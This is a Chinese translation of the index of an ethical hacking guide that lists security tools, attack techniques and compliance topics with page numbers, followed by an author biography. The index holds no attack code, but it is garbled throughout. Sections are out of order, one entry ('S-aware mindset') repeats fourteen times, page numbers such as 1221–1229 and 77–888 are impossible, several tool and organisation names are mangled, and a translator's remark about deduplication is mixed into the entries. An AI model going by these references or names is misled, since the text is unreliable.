- ARIN (北美、加勒比地区和赤道道非洲区域注册机构), 66, 359
- ASP 欺骗/投毒, 147–149
- ASCII (信息交换标准), 119
- asweep (网站), 171, 373
- ASP (活动服务器页面), 291
- Asterisk (网站), 77
- 邮件附件, 255–256
- 攻击树分析, 42
- 攻击, 33–35. 参见特定主题
- 审计，与道德黑客对比, 10–11, 348
- 身份验证, 101, 121–226
- 授权, 18
- 自动评估, 18
- 分析器, 128
- 分析网络数据, 140–146
（注：原文中存在大量重复段落，翻译已按要求进行去重处理）


- Bastille Linux 加固程序（网站）， 369
- Camtasia Studio (TechSim), 45
- Bastille UNIX（网站）， 247
- 加拿大个人信息保护和电子文档法 (PIPEDA), 12
- Beaver, Kevin（作者）
- Canary Wireless 数字热点（网站）， 161
- canary-safety 街机游戏, 68
- 《傻瓜式无线网络破解》，169
- Beaver, Kevin（安全分析师）， 368
- CAPTCHA（全自动化的、区分计算机与人类的图灵测试），257-258, 297
- 捕获流量，273-275
- 可信性，72
- Car Whisperer（网站）， 167, 357
- Carbon Black（网站）， 357
- Cash, Adam（作者）
- 伦理黑客的益处，343-344
- 降低电子邮件安全风险的最佳实践，269-290
- 《傻瓜式心理学》，73
- Cb Protection（网站）， 113, 152
- CJ EH（认证伦理黑客）， 11
- 网络安全中心基准（网站）， 1221-1229, 369
- 证书，115, 348
- 认证伦理黑客 C 版 (CEH) EH), 11
- 认证信息安全经理（网站）， 358
- 认证信息系统安全专业人士（CISM/CISSP）（网站）， 358
- 认证系统安全专业人士 (CISSP), 11
- 认证无线安全专家（网站）， 358
-  Bing（网站）， 62, 359
- BIOS 密码，116, 365
- Bitscanner, 167
- 黑帽（坏黑客，9, 29
- Blast（网站）， 154, 363
- 盲测评估，45, 51
- 盲测伦理黑客，39
- Bloovover（网站）， 166, 357
- BlueLog（网站）， 166
- BlueScanner（网站）， 166, 357
- Bluesnafer（网站）， 166, 357
- Bluesniper 狙击枪（网站）， 166, 357
- 蓝牙，365
- 可启动（Live）光盘，160-161
- 领结结，41
- 自带设备办公 (BYOD), 193
- 用于破解密码的暴力破解攻击，105-107
- Brutus,102, 204, 268, 371, 361
- 适用于 XP 的 BTScanner（网站）， 357
- 缓冲区溢出攻击，244-245, 284
- Windows 内置程序，203
- Burp Proxy, 284, 286, 371
- 办公电话，77
- BYOD (自带设备办公)，193
- CheckURL（网站）， 368
- CheckSum Tool（网站）， 47
- Cheops-ng（网站）， 328
- chkconfig, 238
- 数据泄露年代史（隐私）权利清理中心，342
- CIP（关键基础设施保护），12
- Cisco（网站）， 308
- CISCO LEAP 协议，171
- CISSP (认证系统安全专业人士),11
- 民事自由，33
- 云服务提供商，333-334
- CloudFlare（网站）， 155, 300, 359
- Cobb, Chevy（作者）
- 《傻瓜式网络安全》，122

## C

### Cain & Abel
- 关于，22
- 用于捕获和录制语音流量，273-275
- 使用 ARP 毒，148-199
- 网站，101, 102, 114, 128, 141, 267, 304, 362, 365, 370
- 代码注入，287–289
- 通用密码破解，117–121
- Cofense（网站），78
- 头部泄露，267
- 命令，禁用，240
- 输入攻击，290–291
- 常见漏洞与暴露（网站），56, 318, 371
- MAC 地址伪造攻击，151
- MAC 伪造，183
- 关于通信和消息系统，253
- 缺失补丁的漏洞利用，224–225
- NetBIOS 攻击，210
- 电子邮件攻击，254–270
- 网络协议漏洞，146
- 消息系统漏洞，253–254
- 工具和资源，362
- NFS 攻击，242
- 空会话攻击，214–215
- IP 电话 (VoIP)，270–275–371
- 密码重置程序，193
- CommView (TamoSoft),115, 141, 364, 370, 373
- 物理攻击，245–246
- 用于 WiFi 的 CommView，22
- 全自动区分计算机与人类的图灵测试 (CAPTCHA)，257–258, 297
- 合规性，12, 348
- CompTIA 安全（网站），358
- 计算机欺诈与滥用法（网站），361
- 计算机，物理安全，90–93
- Connect，133
- 连接攻击，256–258
- 连接攻击，256–258
- COPS（网站），244
- Core Insight（网站），357
- 被黑的成本，342–343
- 账户枚举，262–263
- CPT (认证渗透测试员），11
- Crack（网站），366
- 横幅，260
- 横幅获取攻击，137–138
- 缓冲区溢出攻击，245
- 配置漏洞，186
- 默认脚本攻击，293
- 目录遍历，283
- DoS 攻击，154–155
- 使用高科技工具，102–110
- 按键记录，112–113
- 笔记本电脑，188–193
- 网络分析仪，114–115
- 老办法，99–101
- 电子邮件附件攻击，255–256
- 密码保护的文件，112
- 加密流量攻击，170–172
- 手机和和平板，193–198
- 文件权限，243–244
- 规则漏洞，140
- 弱 BIOS 密码，116
- 弱密码存储，113–114
- 悬空的弱密码，116–117
- 崩溃系统，17–18
- 爬虫，280–281
- 建立信任，345
- 犯罪黑客，29
- 关键基础设施保护 (CIP)，122
- 跨站脚本 (XSS)，289–290
- CWE/SANS 前 25 编程错误（网站），371
- Cylance（网站），152
- DHA (目录获取攻击)，260
- 用于破解密码的字典攻击，105
- Digital Hotspot (Canary Wireless),161, 373
- 数字千年版权保护法 (DMCA)，12, 361
- 定向无线天线，161
- 目录获取攻击 (DHA)，260
- 目录遍历，279–282
- 禁用命令，240
- 分布式操作系统 (DoS) 攻击，152–153
- 分布式密码恢复 (Elcomsoft),102, 306, 358
- 更新，248–299
- DLP (数据泄露防护) 系统，332
- DMCA (数字千年版权法)，12, 361
- DMZ (非军事化区) 分段，309
- DNS（网站），359
- DNSSuff 重试检查，362
- DNSSoft（网站），359
- 美元符号 ($)，210
- DoS (拒绝服务) 攻击，15, 127, 152–155, 359
- DoSArrest（网站），155, 359
- dpkg (Debian 包系统)，248
- Djraper (黑客)，28
- 丢包攻击，86
- dnsniff（网站），147, 267, 364
- DumpSec（网站），120, 213, 373
- 翻找垃圾，14, 66–77

## D
- 守护进程，229。另见 Linux
- 数据泄露防护 (DLP) 系统，332
- 数据库
- 关于，303
- 选择测试工具，305–306
- 破解密码，305–306
- 在网络上查找，304–305
- 最小化安全，307–308
- 工具和资源，358
- 漏洞，306–307
- Davis, Peter T.（作者）
- Debian 安全公告 (dpkg)，367
- Debian 包系统 (dpkg)，248
- Deep Freeze 体验（网站），113, 369
- 欺骗，72–74
- 默认配置设置，291
- 默认共享 (Windows)，215–216
- 默认脚本攻击，291–293
- 默认密码（网站），249
- 拒绝服务 (DoS) 攻击，15, 127, 152–359
- 非军事化区 (DMZ) 分段，309
- 补丁管理，326
- 有效补丁搜索（网站），369
- 伦理黑客的效果，347–350
- ECouncil（网站），11
- 病毒防护（网站），362
- Elcomsoft 分布式密码恢复，102, 306, 358
- 文件解密工具，192
- 无线安全 (EWSA)，161, 169, 373
- 手机破解器，197, 363
- 弱密码，102, 306, 358
- 弱密码存储，113–114
- 弱 BIOS 密码，116
- 悬空的弱密码，116–117
- 崩溃系统，17–18
- 基础网络工具 (TasoSoft),128, 135, 364
- 电子邮件攻击，254–270
- 电子邮件攻击，255–256
- 电子邮件攻击，255–258
- 电子邮件防火墙，258
- 电子邮件钓鱼，68–79
- 启用日志，333
- 加密，167–270, 364
- 评估伦理黑客的结果，223
- “恶性孪生”，27
- 执行伦理黑客计划，22–23
- 漏洞
- 可能性和影响，319–320
- 缺失补丁，217–225
- 社交工程攻击中的关系，72–74
- 工具和资源，359
- 术语，7–9
- etettercap（网站），141
- 外部黑客，8


FMEA (失效模式与影响分析), 41
指纹探测 (footprinting), 51
收集出版物, 51–52, 61–64
网络映射 (mapping networks), 64–66

取证磁盘解密器 (Elcomsoft), 192
制定伦理黑客计划, 18–20
Fortinet (网站), 300, 308, 313, 364
Fortres 101 (网站), 113, 369
Foundstone 的 SASS 攻击工具 (网站), 299, 372
fping (网站), 53, 230, 235
FTP (ftpwd), 29
FUD (恐惧、不确定和怀疑), 342
全盘加密, 192

政府资源, 64, 359
抓取横幅 (grabbing banners), 137–138
《格雷姆-里奇-布莱法案》(GLBA), 12, 361
灰帽黑客, 9, 29
Greenidea, Inc. (网站), 337
Greenidea 可视声明 (网站), 370
保证, 352

## H

黑客 (hackers). 另见特定主题
关于, 8–9
攻击风格, 33–35
定义, 8
受雇于, 30
保持匿名性, 35–36
公众认知, 25–28
原因, 30–33
像坏人一样思考, 27
他们是谁?, 28–30
Hack9 (网站), 35, 360
黑客 (hacking): 伦理攻击
《无线网络黑客入门》(Beaver and Davis), 169
攻击技巧 (hacks). 另见特定主题
文件权限, 243
NFS (网络文件系统), 241–242
物理安全, 245
使用 hosts.equiv 文件, 239
使用 .rhosts 文件, 239–240
黑客活动分子 (hacktivists), 30
“外壳硬而脆；内部软而糯,” 68
系统加固, 326–327
哈希 (hashes), 103–104, 306

## G

收集公共信息, 51–52, 61–64
GDPR (通用数据保护条例) (网站), 361
通用研究工具, 359–360
通用安全扫描, 297
GET 请求, 292
Getif, 128, 135–136, 364
GIEventsManager (网站), 333, 362
GI LifGuard, 57, 204, 206, 225–229, 326, 361, 364, 373
GHDB (全球黑客数据库), 282, 372
GIAC (SANS 信息安全认证), 11
后门 (网站), 62
GLBA (格雷姆-里奇-布莱法案), 12, 361
通用数据保护条例 (GDPR) (网站), 361
GNU 用户管理器 (网站), 150, 182
目标, 建立, 37–40
好人 (白帽) 黑客, 9, 29
Google, 221–282, 359
Google Groups, 282
Google 黑客数据库蜜罐 (网站), 283, 372
Google 黑客数据库 (GHDB), 282, 372
《渗透测试人员黑客教程》(Long), 282
治理, 348

《经济与临床健康技术法案》(HITECH 法案), 12
《健康保险可携带性与责任法案》(HIPAA), 10, 12, 361
Rebecca Herold (作者)
《管理信息安全与隐私意识及培训计划》 370
隐藏字段操纵, 286–287
隐藏共享, 210
高科技工具, 用于破解密码 102–110

HIPAA (健康保险可携带性与责任法案), 10, 12, 361
内部黑客, 8
受雇的改过黑客, 336
内部主机, 扫描, 52
HITECH (经济与临床健康技术法案), 12
互联网, 用于社交工程学攻击, 75–76
自制 WiFi 天线 (网站), 373
物联网 (IoT), 198
Hoovers (网站), 64, 75, 360
互联网中继链 (IPC), 34-34
Interact, Inc. 意识资源 (网站), 370
主机, 52–53
进程间通信 (IPC), 210–216
hosts.equiv 文件, 238–341
入侵者锁定, 120
入侵防御系统 (IPSs), 27, 332
HP Arc Logger (网站), 333
inurl 运算符, 282
HTTP (超文本传输协议), 256, 279.
IOS 取证工具包 (Elcomsoft), 194–197, 363
iOS 密码, 破解, 194–197
HTTP 命令, 137
IoT (物联网), 198
httpd (Apache 服务器), 230
IP 隐私 (网站), 299
HTTPS (SSL), 156
IPC (进程间通信), 210–211
HTTrack Web Copier, 63, 280, 382
IPsec 支持, 171
超文本处理器 (PHP), 291
IPs (入侵系统), 27, 332
超文本传输协议 (HTTP), 256, 279.
iptables 防火墙, 233
IRC (网络聊天), 34

## I

IACRB 认证渗透测试 (CPT), 11
IBM BigFix (网站), 367
日本个人信息保护法 (JIPA), 12
ifconfig 命令, 179
IDE 工具 (网站), 308, 358
John the Ripper 10, 102, 109, 366
影响, 70
伪装员工, 73
inet.conf, 236–237
推理, 破解密码, 101
信息, 工程学攻击, 75–79
信息收集, 来自空会话, 212–214
输入过滤攻击, 283–290
保险, 40
接口, 不安全的, 155–156

## K

Kali Linux (网站), 160, 229, 361, 362
Timothy V. Kelly (作者)
键盘记录器, 360
击键记录, 112–113
KCC Consulting (网站), 182
Kismet (网站), 161, 373
Knopix (网站), 189, 362
知识评估, 45

## L

LACNIC (拉丁和加勒比互联网注册中心), 66, 360
LastPass (网站), 118, 366
Candace Leiden (作者)
LexisNexis (网站), 64
Barry Lewis (作者)
可用, 71–72
limbo, 破解, 116–117
LinkedIn (网站), 62
Linux
关于, 227–228
检查文件权限, 242–244
检查物理安全, 245
选择工具, 229
使用 John the Ripper 破解密码, 105–110
发现缓冲区溢出, 244–245
发现不需要且不安全的服务 233–238
补丁, 248–249
执行通用安全测试, 246
安全, 122
以及 hosts.equiv 文件, 238–341
工具和资源, 361
漏洞, 228
Linux 管理员安全指南 (网站), 370
Linux 安全审计工具 (LSAT), 361
live (启动型) CD, 160–161
live 工具包, 362
位置, 选择, 46
日志分析, 362
LSAT (Linux 安全审计工具), 361
低悬挂果实, 32
LUCY (网站), 78–368

## M

MaaS360 (网站), 194
MAC 地址厂商查询 (网站), 364
MAC 欺骗, 150–151, 179–183
ManageEngine (网站), 249, 367
管理信息安全与隐私意识及培训计划, 370
手动分析, 280
手动评估, 56–377
网络映射, 64–66
空会话, 211–212
最大尺寸变量, 284
MBSA (微软基线分析器), 203, 226, 373
McAfee 服务器入侵防御 (网站), 232, 372
MDM (移动设备管理), 193
消息: 见通信和消息系统
Metasploit
关于, 22, 279
利用缺失补丁, 220–225
网站, 58, 204, 244, 268, 359
方法论
评估漏洞, 56–57
指纹探测, 51–52
开放端口, 53
渗透系统, 58
扫描系统, 52–53
测试, 49–51
微软 (网站), 93
微软基线分析器 (MBSA), 203, 226, 373
微软 BitLocker 管理与监控 (网站), 363
微软安全合规管理器 (网站), 308, 370
微软安全技术中心 (网站), 367
微软 SQL Server  Management Studio (网站), 386
微软 SQL Server 管理 (网站), 358
恶意用户
关于, 9
与伦理黑客对比, 10
定义, 8
监控, 33–34
恶意软件, 268, 357
最小化安全, 307–308
匹配补丁, 220–225
错误, Kevin (黑客), 282
移动管理 (MDM), 193
移动设备
关于, 187
应用, 188
破解笔记本密码, 188–193
破解手机和平板, 194–198
工具和资源, 363
监控模式, 143
监控病毒, 222–334
多平台更新管理器, 249
NAT (网络地址转换), 139
美国标准与技术协会 (NIST), 56, 121, 275, 366
通用漏洞数据库 (网站), 98, 234, 318, 371
nbtstat (NetBIOS over TCP/IP), 203
NERC (北美可靠性公司) (CIP) 要求, 122
nus (网站), 22, 229, 364
net use 命令, 212
net view 命令, 212–213
NetBIOS (网络基本输入输出系统), 203, 208–210
NetBIOS 审计工具 (网站), 366
NetBIOS TCP/IP 统计, 203
Netcat (网站), 138–139, 364
Netcraft 搜索工具, 55
Netcat's What running? (网站), 360
netfilter/iptables (网站), 364
NetResident (TamoSoft), 144, 267, 364
NetScanTools Pros, 22, 53, 65, 128–133, 135, 165, 204, 229, 364
Netmapper, 21, 22, 273, 278, 372
netstat.命令, 236
NetStumble, 164, 364
网络地址转换 (NAT), 139
网络分析
关于, 140–145
针对漏洞的应对措施, 146
破解密码使用, 114–115
程序, 141
网络基本输入输出系统 (NetBIOS), 203, 208–210
网络组件, 物理安全
漏洞, 90–93
网络基础设施
关于, 125–216
tacks, 15
选择工具, 127–128
安装通用网络防御, 156–157
执行伦理攻击, 129–156
《For Dummies》(副本) 的漏洞, 122


网络安全工具（网站）, 362
网络用户（网站）, 373
网络

分析数据, 140–146
在数据库上, 304–305
映射, 64–66
工具和资源, 363–365
Nexpose, 22, 57, 128, 153, 204, 225–226, 229,
237, 304, 309, 358, 361, 364, 373

基于 NFS 的网络附属存储 (NAS)
系统, 308
NIST (美国国立标准与技术研究院), 56, 121, 275, 366, 371
Nmap, 58, 121–132, 132–133, 206, 229,
230, 235, 364

MapWin（网站）, 55, 328
非战术攻击, 14
北美电力可靠性协会 (NERC) CIP 规范, 12
ping（网站）, 165, 364
NTAccess（网站）, 188, 386
空包扫描, 133
空传感器, 检测的, 211–212

操作系统, 121–122
ophrack, 21, 102, 107, 191, 363, 366
ophrack LiveCD（网站）, 90
Oracle, 305
组织密码漏洞, 97
OSCP (攻性安全认证专业人员), 11

Outlook 网页访问 (OWA), 270
外包
道德黑客, 334–335
安全监控, 333–334
测试, 355
OWA (Outlook 网页访问), 270
OWASP（网站）, 368
OWASP WebGo 项目（网站）, 298
OWASP 攻击代理项目（网站）, 372
开放取证安全工具包（网站）, 363

## P

Palo Alto Networks（网站）, 152, 300
Pandora（网站）, 366
Paros Proxy（网站）, 372
合作伙伴, 348–349
密码短语, 118
Passware（网站）, 189
Passware Kit Forensic（网站）, 363, 366
Password Safe（网站）, 118, 366
密码破解软件, 102–105
受密码保护的文件, 116–012
密码. *另参见破解密码*
95–96

## O

隐蔽性, 由 299
攻性安全认证专业人员 (OSCP), 11
Offensive Security 漏洞数据库（网站）,
224, 359
办公室, 策略安全, 85–93
官方 Internet协议标准（网站）, 126
全向无线天线, 161
OmniPeek (Savius), 22, 115, 128, 161, 275,
364, 371
OmniPeek（网站）, 53
Open Groups FAIR 风险分类法, 368
开放端口, 53–56
开源安全测试方法手册（网站）, 58, 368
开源 Tripwire（网站）, 241
开放 Web应用程序安全项目（网站）,
57, 278
操作指南, 旨在最小化邮件安全威胁, 270
破解的应对措施, 117–121
安全加固, 121–122
漏洞, 96–98
补丁
关于, 324–325
自动化, 325–326, 331–332
Linux, 248–249
管理, 325, 367
专利和商标局（网站）, 64
支付卡行业数据安全标准 (PCI DSS), 10, 361

PCI DSS 渗透测试指南（网站）, 58

PDQ Deploy（网站）, 326
渗透测试, 1, 58

渗透测试执行标准（网站）, 58
边界防护, 258
权限, 共享, 215-217

Peter Davis & Associates 培训服务（网站）, 370
钓鱼邮件, 68-79
Phone Breaker (Elcomsoft), 197, 363
手机
破解, 193-198
用于社会工程学攻击, 77
PHP (超文本预处理器), 291
Phrack（网站）, 35
物理安全
关于, 83
基础漏洞, 44-85
使用 Linux 检查, 245-246
网络分析器和, 146
你办公室中的漏洞, 85-93, 183
死亡之源 (Ping of Death), 153
Ping (ICMP 回显响应), 54
ping 扫描, 131–132, 135
PIPED (加拿大信息保护和电子法), 12
pkg (Slackware 包), 248
计划开发
关于, 40
选择要攻击的系统, 40–41
创建标准, 43–47
建立目标, 37–40
保险, 40
选择安全工具, 47–48
安全漏洞
关于, 323
加固系统, 326–327
修补, 324–326
将报告转化为行动, 323
点对隧道协议 (PPTP), 170–171
POP3 命令, 137
端口
查询, 364
开放, 53–56
扫描, 129–135
80 端口
POST 请求, 292
Postfix（网站）, 270
电源线, 拔掉
PPTP 端口, 7
预共享密钥 (PSKs), 69
预先批准, 351
优先考虑漏洞, 319–320
隐私, 17
隐私政策, 66
数据泄露隐私权利组织（网站）, 342, 369
主动密码恢复 (Elcomsoft), 21, 103, 366
主动系统密码恢复 (Elcomsoft), 01
评估结果, 23
执行计划, 18–22
制定建议, 23, 24
选择, 20–21
专业责任, 40
混杂模式, 115, 140
协议, 54
PROT（网站）, 273, 371
PSKs (预共享密钥), 169
《心理学入门》(Cash), 73
公开信息, 收集, 51–52, 61–64
黑客的认知, 25–28
PVS-Studio Analyzer（网站）, 300, 369

破解 Windows 密码, 107–109
网站, 103, 367
Pwie Express（网站）, 90, 359
关系, 社会工程学攻击利用, 72–74
转发, SMTP, 263–266
报告结果
关于, 317
编译, 317–319
创建报告, 321–322
优先考虑漏洞, 319–320
RFC 列表 (RFCs), 126
住宅电话, 77
尊重隐私, 17
响应漏洞, 46
限制匿名连接系统, 215
反向 ARP (RARPs), 179
反向社会工程学, 73
RFC 列表, 126
rhosts 文件, 238–341
RIAA (美国录音制品制品协会), 33
RIPE 网络协调中心（网站）, 66, 360
风险分类法 (Open Group), 368
风险, 严重与漏洞
数据库安全, 307–308
最小化存储系统安全, 312–313
最小化 Web 安全, 298–301
安全, 14–16
流氓无线设备, 175–179
RPM (红帽包管理器), 248
RTP (实时传输协议), 272
道德黑客规则, 16–18

## Q

qmail（网站）, 270
Qualys（网站）, 229
Qualys SSL Labs（网站）, 372
QualysGuard 漏洞扫描器, 365
网站, 57, 358, 361, 373

## R

RADIUS 服务器, 用于破解密码, 107
彩虹攻击, 彩虹表表, 103, 367
RainbowCrack, 103, 367
漏洞排名, 319–320
Rapid7（网站）, 57, 290
ARPs (反向 ARP), 179
实时传输协议 (RTP), 272
道德黑客的原因, 347–350
黑客的原因, 30–33
Reaver, 173–174, 374
Reaver Pro（网站）, 175
美国录音制品协会, 33
录制语音流量, 273
红帽 Linux, 240
红帽包管理器 (RPM), 248
红队, 39
区域互联网注册机构 (AFRIN), 66
区域互联网注册机构 (CARIN), 66
区域互联网注册机构 (北美), 66
监管关注, 12
相关关注, 382

ANS 认证 (GIAC), 11
ANS Global, 57
ANS 信息保证, 21
ANS 存储区域网络, 308
ANS 安全控制, 117
ANS 安全管理器 (SAM), 104
ANS 安全注册表, 66
ANS 移动安全, 337
ANS 安全学院, 35
ANS S
S-aware mindset, 336
S-aware mindset, 337
S-aware mindset, 338
S-aware mindset, 339
S-aware mindset, 340
S-aware mindset, 341
S-aware mindset, 342
S-aware mindset, 343
S-aware mindset, 344
S-aware mindset, 345
S-aware mindset, 346
S-aware mindset, 347
S-aware mindset, 348
S-aware mindset, 349
套接层/传输安全 (SSL/TLS), 17
安全 Shell (SSH), 17
服务集标识符 (SSD), 163
会话建立协议 (PIP), 272
SetGID, 243
SetUID, 243

7-Zip（网站）, 10, 363
SFTP, 256
共享查找, 209–210
共享权限, 枚举, 215-217
共享, 209–210
Shavik 补丁（网站）, 367
肩窥窥者, 95, 100
显示价值, 436
SI 数据采集日志管理（网站）, 362
简单邮件传输协议 (SMTP)
账户枚举, 260–263
捕获流量, 267
邮件头部泄露, 266–267
恶意软件, 268
转发, 263
简单网络管理协议 (SNMP), 135–137
SIP (会话建立协议), 272
sipsak（网站）, 273
Siteigger, 372
Slackware Linux 安全公告（网站）, 367
Slackware 包工具 (pkgtool), 248
SMAC (KLC Consulting), 150–151, 182
SMAC MAC 地址更改器（网站）, 365
SmartDraw（网站）, 42, 363
Smartwoorth（网站）, 65
SMB (服务器消息块), 208


SMTP (简单邮件传输协议)
- 账户枚举, 260–263
- 流量捕获, 267
- 邮件头部泄露, 266–267
- 恶意软件, 268
- 中继, 263–266

SourceForge (网站), 229, 361
spector 360 (SpectorSoft), 112
Spirion (网站), 369
赞助, 18, 341
SQL Inject Me (网站), 289, 372
SQL 注入, 27, 287–289
SQL Power Injector (网站), 289, 372
SQLPing3, 104, 304, 305, 368
SSH (安全外壳), 171
SSID (安全标识符), 163
HTTPS (https), 156
SSL Labs (网站), 156
SSL/TLS (安全套层/传输安全协议), 171

SMTP 命令, 137
smtpscan (网站), 259, 362
Smurf (网站), 357
Snare (网站), 233
SNARE (网站), 365
sniffet (网站), 115, 146, 365
嗅探工具, 140
嗅探, 定义, 140

SNMP (简单网络管理协议), 135–137
SNPUTIL (网站), 135
社会工程工具包 (网站), 368
社会工程学
- 关于, 14, 67–68
- 应对措施, 80–82
- 破解密码, 99–100
- 实施攻击, 75–79
- 影响, 70–74
- 测试, 68–69
- 工具和资源, 368
社会工程攻击, 执行
- 关于, 74–75
- 为什么攻击者为何使用, 69–70
- 建立信任, 71–72
- 利用关系, 72–74
- 寻求信息, 75–79
社交媒体, 62

统计数据，关于工具和资源, 369
密码存储, 104, 113, 118
存储过载 (邮件), 255
存储系统
- 关于, 308
- 选择用于测试安全的工具, 309
- 在网络中寻找敏感文本, 310–312
- 最小化安全风险, 312–313
- 工具和资源, 369
用户支持人员，假的, 68
SUSE, 248
.swf 文件, 63
交换机, 63, 115
symantec (网站), 246
symantec PGP (网站), 370
SYN 洪水, 153
SYN 隐形扫描, 133
Synfl Knock Scanner (网站), 153, 365
sysinternals (网站), 204, 373
系统崩溃, 17–18
系统加固, 326–327, 369–370
系统日志, 启用, 333
系统恢复 (Elmsoft), 102, 188, 363, 366

SoftPerfect Network Scanner (网站), 22, 204, 363
软件
- 用于最小化邮件安全威胁, 269
- 破解密码, 102–105
- 未授权的, 27
SolarWinds 网络配置管理器 (网站), 139
SonarQ (网站), 300, 369
SonicWall (网站), 365
- 源代码，分析, 300–301, 369

系统扫描, 205–207, 229–234
系统
- 选择攻击哪一个, 40–41
- 加固, 326–329, 369–370
- 渗透, 58
- 扫描, 52–53

# T

平板电脑，破解, 193–198
TamoSoft
- CommView, 115, 128, 141, 161, 275, 370, 373
- Essential NetTools, 135, 365, 364
- NetResident, 144, 267, 364
- tarpiffing, 258
特定任务工具, 204–205
TCP (传输控制协议), 54, 129
TCP Wrappers, 238
《TCP/IP For Dummies》第6版 (Leiden and Wilensky), 126
TCP/UDP 端口, 54
TCPView (网站), 204
技术密码漏洞, 97–98
Technical Soft Icon, 30
TechSmith's Camtasia Studio (网站), 45
telnet (telnet), 137, 230
术语, 7–9
恐怖分子, 30
测试
- 关于, 49
- 拒绝服务 (DoS) 攻击, 152–155
- 邮件头部泄露, 266–267
- 文件权限, 243–244
- 防火墙规则, 138–140
- 外包, 355
- SMTP 中继服务器, 263–266
- 社会工程学, 68–69
- 标准, 43–47
- 存储系统, 309
THC-Amp (网站), 361
THC-Hydra (网站), 103, 295, 367, 372
theHarvester (网站), 360, 362
3M Privacy Filters (网站), 100, 363
Tiger (网站), 361
Tiger 安全审计工具, 247
tiger 团队, 39
在道德测试中, 43–44
TLS (传输安全协议), 156
工具和资源
- 高级恶意软件, 357
- 一合一评估, 204
- 蓝牙, 357
- 认证, 358
- 破解笔记本电脑, 188–193
- 道德黑客基础设施, 127–128
- 一般研究, 359–360
黑客事物, 360
键盘记录器, 360
法律和法规, 361
Linux, 361
实时工具包, 362
日志分析, 362
消息传递, 362
Microsoft, 203–205
杂项, 363
移动端, 363
网络, 363–365
密码破解, 365–367
补丁管理, 367
端口扫描, 129–135
安全教育和资源, 368
安全方法和模型, 368
选择, 20–21
社会工程学, 368
源代码分析, 369
统计数据, 369
系统加固, 369–370
特定任务, 204–205
用于系统安全, 309
用户意识和训练, 370
使用正确的, 354
Voice over IP, 370–371
漏洞数据库, 371
用于 Web 应用, 278–279
网站和应用程序, 371–372
Windows, 373
无线网络, 373–374

顶级者, 144
流量，捕获, 267, 273–275
Traffic IQ Professional (idcom), 365
社会工程学应对措施, 80–82
传输控制协议 (TCP), 54, 129
传输安全协议 (TLS), 156
Tripwire, 244
TrueCrypt, 192
破解社会工程攻击中的信任, 71–72
信任度, 17
Twitter (网站), 62

2600-The Hacker Quarterly (杂志), 35, 360

# U

UDP 数据报协议, 129
UDP , 133
UDPflood (网站), 154, 365
UEFI (统一扩展固件接口), 116
未身份验证执行, 208–210
未授权的软件, 27
统一扩展固件接口 (UEFI), 116
美国专利商标局 (网站), 360
美国州违露通知 (网站), 360
UNIX 变体
- 使用 John the Ripper 破解密码, 109–110
- 加固, 122
- 密码存储位置, 104
UNIX 系统中的 MAC 地址欺骗, 150
- 不安全的接口, 155–156
- 安全登录机制, 293–297
update2, 248
高层管理认可, 341–346
URL 操控, 284–286
美国政府 (网站), 66
US Search.com (网站), 360
美国证券交易委员会 (网站), 64, 75, 360
US-CERT 漏洞说明数据库 (网站), 56, 371
用户意识和训练, 370
用户数据报协议 (UDP), 129
用户密码漏洞, 96–98
实用程序，物理安全漏洞, 77–888

# V

价值，显示, 346
供应商，假的, 68
Veracode (网站), 363
Verizon 数据泄露调查报告 (网站), 12, 942, 369
虚拟专用网络 (VPN) 服务, 54
VirtualBox (网站), 52
Visio, 328
Virtual Code Geeper (网站), 300
VMware Work Pro (网站), 52
VNC (网站), 91
Voice over IP
- 关于, 270–273
- 社会工程学应对措施, 275
- 工具和资源, 370
- 漏洞, 272
VoIP (网站), 271
VoIP 服务器, 275
VPN (Virtual Network) 服务, 54
漏洞, 271
Voice over IP


WinZip (网站), 363
无线等效隐私 (WEP), 167–180
无线局域网 (WiFi)
关于, 159

- 攻击与防御措施, 165–186
- 工具选择, 162–162
-  发现, 162–164
- 漏洞的影响, 159–160
- 无线网络、工具与资源, 373–374

*傻瓜走无线网络* (Davis and Lewis), 184

无线安全审计员 (Elcomsoft), 161, 172, 373
无线工作站, 185

Wireshark (网站), 53, 115, 128, 141, 365
WPA (Wi-Fi 安全访问), 167–170
WPS (Wi-Fi 安全设置), 172–174
WSDigger (网站), 298, 372
WSFuzzer (网站), 372

WSUS (Windows 服务器更新服务), 225, 326, 367

# X

xinetd 程序, 236–237
Xmas Tree扫描, 133
XSS (跨站脚本), 289–290
XSS-Me Firefox 插件开启 (网站), 250

# Y

雅虎财经 (网站), 75, 360
YouTube (网站), 62

# Z

ZabaSearch (网站), 64, 360
僵尸网络 (zombies), 74

392 黑客攻击傻瓜指南

## 关于作者

Kevin Beaver 是一位独立信息安全顾问、专家证人、专业演讲者和作家，任职于位于亚特兰大的 Principle Logic, LLC 公司。他在 IT 领域拥有三十多年的经验，并在安全领域工作了四分之一世纪。Kevin 专长为企业、安全产品供应商、开发者/云服务提供商、政府机构、非营组织等提供独立的信息安全评估。在 2001 年开始信息安全咨询业务之前，Kevin 曾在多家医疗、电子商务、金融和教育机构担任过各种信息技术 (IT) 和安全职位。

Kevin 曾以信息安全专家的身份出现在 CNN 电视节目中，并被《华尔街日报》、《企业家》、《财富》、《小企业》、《女性健康》以及《英刻》(Inc.) 杂志下的技术网站 IncTechnology.com 引用。Kevin 的工作也被 PCI 委员会在其《数据标准无线指南》中引用。在过去的十五年里，Kevin 一直是顶级演讲者，为 IT 和安全研讨会以及网络直播提供过数百次演讲和小组讨论。

Kevin 合著了 12 本信息安全类书籍，包括《黑客无线网络傻瓜指南》(Hacking Wireless Networks For Dummies)、《实现与维护 IT 合规的策略》(Realtimepublishers.com) 以及《HIPAA 隐私与安全合规实用指南》(Auerbach)。他为 SearchSecurity.com、SearchEnterpriseDesktop.com、Search-SoftwareQuality.com、Ziff Davis 的 Toolboxes 以及 IBM 的 SecurityIntelligence.com 等网站撰写了三份白皮书和 1000 多篇文章及客博客。他是 Security On Wheels 音频书的创建者和制作人，这些音频为移动中的 IT 专业人士提供安全学习 (securitywheels.com)，以及 Security On Wheels 博客 (securitywheels.com/blog)。他还在 Twitter (@kevinbeaver) 和 YouTube (@princlogic) 上涵盖信息安全及相关事务。Kevin 拥有南方科技学院的计算机工程技术学士学位，以及佐治亚州理工学院的技术管理硕士学位。他于 2001 年获得 CISSP 认证，并拥有 MCSE、Master CSE 和 IT 项目认证。

可以通过他的网站 https://www.principlelogic.com 联系 Kevin，您也可以通过 LinkedIn https://www.linkedin.com/in/kevinbeaver 与他建立联系。

## 献辞

